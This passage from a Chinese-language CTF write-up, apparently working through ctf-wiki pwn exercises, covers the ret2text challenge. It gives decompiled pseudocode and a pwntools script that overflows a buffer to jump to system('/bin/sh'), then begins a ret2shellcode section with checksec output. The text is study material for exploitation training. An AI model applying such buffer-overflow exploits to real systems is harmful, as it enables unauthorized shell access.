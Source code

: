 人肉反编译下得到伪代码。

```c
srand(time());
var_0xc = rand();
scanf("%d", &var_0x10);
if (var_0xc != var_0x10) return;
system("/bin/sh");
```

soooooo，没必要硬怼随机数，直接跳到 `system("/bin/sh")` 就好。把 exploit 中跳转地址改成 `0x804863a` 完事。

### exploit

```python
import pwn
import struct

p = pwn.process('./bin/ret2text')

print(p.recv().decode())
p.sendline(b'A'*112+struct.pack('<I', 0x804863a))
print(p.recv().decode())
p.interactive()
```

![image-20220823115054852](image-20220823115054852.png)

## ret2shellcode

> 来源依然是 ctf-wiki 我就不放链接了。

### 基本信息

```plaintext
# file 
bin/ret2shellcode: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=47e6d638fe0f3a3ff4695edb8b6c7e83461df949, with debug_info, not stripped
# checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```
